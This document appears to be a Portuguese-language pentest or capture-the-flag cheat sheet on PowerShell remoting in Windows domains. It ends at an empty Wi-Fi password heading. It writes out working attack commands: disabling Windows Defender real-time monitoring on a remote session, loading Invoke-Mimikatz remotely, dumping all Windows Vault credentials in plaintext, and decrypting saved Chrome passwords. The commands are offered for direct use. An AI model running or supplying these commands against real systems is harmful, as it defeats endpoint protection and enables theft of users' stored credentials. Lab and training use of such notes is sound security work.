 ## PSSEssion

SSH no Windows?!

### Nova Seção

```powershell
$sess = New-PSSession -ComputerName abc.dominio.local
```

### Carregando Scripts

```powershell
# Desativar o Windows Defender
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
# Carregar o Script
Invoke-Command -FilePath "C:\Invoke-Mimikatz.ps1" -session $sess
```

### Executando Comandos

```powershell
Invoke-Command -ScriptBlock {Get-Process Notepad} -Session $sess
```

### Copiando Arquivos Entre Seções

```powershell
Copy-Item -Path C:\Reports\flag.txt -Destination 'C:\Users\Desktop\' -FromSession $sess
```

### Senhas Vault e Registro

Não é bem AD mas ajuda um bocado durante a exploração

#### Senhas do Windows Vault

Importante lugar pra verificar credenciais salvas, já encontrei muita coisa interessante aqui!

```powershell
[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime];(New-Object Windows.Security.Credentials.PasswordVault).RetrieveAll() | % { $_.RetrievePassword();$_ }
```

#### Senhas do Google Chrome

Essa não preciso nem falar nada

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($datarow.password_value,$null,[System.Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Senhas Wifi
